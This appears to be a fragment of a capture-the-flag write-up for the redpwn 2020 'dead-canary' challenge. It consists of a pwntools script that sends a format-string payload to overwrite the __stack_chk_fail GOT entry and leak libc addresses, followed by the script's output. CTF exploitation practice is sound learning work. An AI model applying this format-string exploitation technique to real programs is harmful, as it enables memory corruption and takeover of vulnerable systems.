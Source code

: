 ```python
from pwn import *

elf = ELF("./dead-canary")
libc = elf.libc

p = process(elf.path)
p.recvuntil(": ")

fmt = "%064x"
fmt += "%11$n" 
fmt += "%01783x"
fmt += "%12$hn"
fmt += "%13$s"
fmt += "BBBBBBBBBBB\x00"
fmt += p64(elf.got.__stack_chk_fail + 2)
fmt += p64(elf.got.__stack_chk_fail)
fmt += p64(elf.got.printf) 
fmt += "C"*(272-len(fmt))

log.info("payload size : %s" % str(len(fmt)))
log.info("payload : %s" % fmt)

p.sendline(fmt)
data =  p.recvuntil(":")

data = data.strip().split("BBBB")[0].split("0")[-1]
l_printf = u64(data.ljust(8, "\x00"))
b_libc = l_printf - libc.sym.printf
libc.address = b_libc

log.info("leak printf: %s" % hex(l_printf))
log.info("leak libc  : %s" % hex(b_libc))
log.info("leak system: %s" % hex(libc.sym.system))

p.interactive()
```

sortie:
```
$ python stage1.py 
[+] Starting local process '/.../CTF/redpwn/2020/pwn/dead-canary/bin/dead-canary': pid 14813
[*] payload size : 272
[*] payload : %064x%11$n%01783x%12$hn%13$sBBBBBBBBBBB\x00\x10\x00\x00\x00\x10\x00\x00\x00\x10\x00\x00\x00CC[...]C
[*] leak printf: 0x7ffff7a48e80
[*] leak libc  : 0x7ffff79e4000
[*] leak system: 0x7ffff7a33440
[*] Switching to interactive mode
 $ foo
Hello foo
\xff\x7f[*] Process '/.../CTF/redpwn/2020/pwn/dead-canary/bin/dead-canary' stopped with exit code 0 (pid 14813)
[*] Got EOF while reading in interactive
[*] Interrupted
```
